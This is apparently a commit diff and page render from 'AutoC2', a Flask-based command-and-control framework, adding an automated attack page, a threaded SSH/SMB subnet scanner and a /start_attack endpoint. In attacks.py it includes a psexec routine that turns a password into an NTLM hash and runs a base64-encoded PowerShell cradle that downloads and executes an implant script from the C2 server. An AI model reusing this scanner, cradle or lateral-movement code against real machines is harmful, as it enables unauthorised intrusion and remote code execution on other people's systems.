
After one commit to bokkisec/AutoC2, a Flask app: page /attack in a window 1280 px wide. The commit adds this page. Run offline with Flask 3, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1).

Commit message:
progress on auto attack feature

```diff
--- a/app.py
+++ b/app.py
@@ -5,16 +5,19 @@ import threading
 import queue
 import readline
 import logging
+from concurrent.futures import ThreadPoolExecutor
 
 # Custom imports
 import users
 import implants
+import attacks
 
 # IP and port configs
 SERVER_HOST = "192.168.108.15"
 SERVER_PORT = 4444
 FLASK_HOST = "192.168.108.15"
 FLASK_PORT = 5000
+TARGET_SUBNET = "192.168.108."
 
 # C2 configs
 DELAY = 10
@@ -151,6 +154,36 @@ def start_server():
     finally:
         server_socket.close()
 
+def network_scan(subnet="192.168.108.", ports=[22, 445]):
+    """
+    Scans the given subnet for specified ports and handles results accordingly.
+
+    Args:
+        subnet (str): The subnet to scan, e.g., "192.168.108.".
+        ports (list): List of ports to scan, e.g., [22, 445].
+    """
+    def scan_host(ip):
+        for port in ports:
+            try:
+                with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
+                    s.settimeout(1)  # Timeout for connection
+                    result = s.connect_ex((ip, port))
+                    if result == 0:
+                        if port == 22:
+                            print(f"[INFO] SSH (port 22) open on {ip}. Potential SSH server.")
+                        elif port == 445:
+                            print(f"[INFO] SMB (port 445) open on {ip}. Potential SMB service.")
+                    else:
+                        # print(f"[DEBUG] Port {port} closed on {ip}.")
+                        pass
+            except Exception as e:
+                print(f"[ERROR] Error scanning {ip}:{port} - {e}")
+
+    print("[INFO] Starting scan...")
+    with ThreadPoolExecutor(max_workers=10) as executor:
+        ips = [f"{subnet}{i}" for i in range(1, 255)]
+        executor.map(scan_host, ips)
+    print("[INFO] Scan completed.")
 
 @app.route('/')
 def home():
@@ -179,8 +212,19 @@ def dashboard():
         return redirect(url_for('login'))
     return render_template('dashboard.html', username=session['username'], agents=registered_agents_id[1:])
 
+@app.route('/attack')
+def attack():
+    if 'username' not in session:
+        flash('Please log in first.', 'warning')
+        return redirect(url_for('login'))
+    return render_template('attack.html')
+
 @app.route('/logs')
 def logs():
+    if 'username' not in session:
+        flash('Please log in first.', 'warning')
+        return redirect(url_for('login'))
+
     # Specify the path to your log file
     log_file_path = 'server.log'
 
@@ -193,6 +237,15 @@ def logs():
 
     # Render the log contents in the HTML template
     return render_template('logs.html', log_content=log_content)
+
+@app.route('/start_attack', methods=['POST'])
+def start_attack():
+    # Call your Python function here
+    perform_attack()
+    return "Attack initiated successfully!"
+
+def perform_attack():
+    ssh_hosts, smb_hosts = network_scan(TARGET_SUBNET)
 
 @app.route('/logout')
 def logout():
--- a/attacks.py
+++ b/attacks.py
@@ -36,7 +36,7 @@ With valid credentials, psexec and run implant code
 """
 def psexec(username, password, target, FLASK_HOST, FLASK_PORT):
     ntlm = binascii.hexlify(hashlib.new('md4', password.encode('utf-16le')).digest()).decode(encoding="utf-8")
-    payload = 'IEX(New-Object Net.WebClient).downloadString("http://192.168.108.15:5000/static/win.ps1")'
+    payload = f'IEX(New-Object Net.WebClient).downloadString("http://{FLASK_HOST}:{FLASK_PORT}/static/win.ps1")'
     b64 = base64.b64encode(payload.encode("utf-16")[2:]).decode("utf-8")
     cmd = f"powershell -e {b64}\n"
 
--- a/static/styles.css
+++ b/static/styles.css
@@ -248,3 +248,25 @@ body {
 .refresh-btn i {
     font-size: 20px; /* Size of the refresh icon */
 }
+
+.start-attack-button {
+    background-color: #ff4d4d;
+    color: white;
+    border: none;
+    border-radius: 5px;
+    padding: 20px 40px;
+    font-size: 20px;
+    font-weight: bold;
+    cursor: pointer;
+    box-shadow: 0 4px 6px rgba(0, 0, 0, 0.2);
+    transition: transform 0.2s;
+}
+
+.start-attack-button:hover {
+    background-color: #ff1a1a;
+    transform: scale(1.05);
+}
+
+.start-attack-button:active {
+    transform: scale(0.95);
+}
--- /dev/null
+++ b/templates/attack.html
@@ -0,0 +1,61 @@
+<!DOCTYPE html>
+<html lang="en">
+<head>
+    <meta charset="UTF-8">
+    <title>AutoC2 | Attack</title>
+    <link rel="stylesheet" href="{{ url_for('static', filename='styles.css') }}">
+</head>
+<body>
+
+    <!-- Dashboard content -->
+    <div class="container">
+
+        <h1 class="title">AutoC2</h1>
+
+        <!-- Navbar with links -->
+        <nav class="navbar">
+            <div class="nav-links">
+                <a href="{{ url_for('dashboard') }}" class="button">Dashboard</a>
+                <a href="{{ url_for('attack') }}" class="button">Attack</a>
+                <a href="{{ url_for('logs') }}" class="button">Logs</a>
+            </div>
+            <div class="nav-links">
+                <a href="{{ url_for('logout') }}" class="button">Logout</a>
+            </div>
+        </nav>
+
+        <div class="main">
+            <button id="start-attack-button" class="start-attack-button">Start Attack</button>
+            <div id="response-message" class="output" style="color: white;"></div>
+        </div>
+
+    </div>
+
+    <script>
+        document.getElementById('start-attack-button').addEventListener('click', async () => {
+            const responseMessage = document.getElementById('response-message');
+
+            try {
+                // Send POST request to Flask server
+                const response = await fetch('/start_attack', {
+                    method: 'POST',
+                    headers: {
+                        'Content-Type': 'application/json',
+                    },
+                });
+
+                if (response.ok) {
+                    const data = await response.text(); // Assuming the server returns plain text
+                    responseMessage.textContent = data;
+                } else {
+                    responseMessage.textContent = 'Error: Failed to initiate attack.';
+                    responseMessage.style.color = 'red';
+                }
+            } catch (error) {
+                responseMessage.textContent = 'Error: Could not reach the server.';
+                responseMessage.style.color = 'red';
+            }
+        });
+    </script>
+</body>
+</html>
--- a/templates/dashboard.html
+++ b/templates/dashboard.html
@@ -17,6 +17,7 @@
         <nav class="navbar">
             <div class="nav-links">
                 <a href="{{ url_for('dashboard') }}" class="button">Dashboard</a>
+                <a href="{{ url_for('attack') }}" class="button">Attack</a>
                 <a href="{{ url_for('logs') }}" class="button">Logs</a>
             </div>
             <div class="nav-links">
--- a/templates/logs.html
+++ b/templates/logs.html
@@ -16,6 +16,7 @@
         <nav class="navbar">
             <div class="nav-links">
                 <a href="{{ url_for('dashboard') }}" class="button">Dashboard</a>
+                <a href="{{ url_for('attack') }}" class="button">Attack</a>
                 <a href="{{ url_for('logs') }}" class="button">Logs</a>
             </div>
             <div class="nav-links">
```
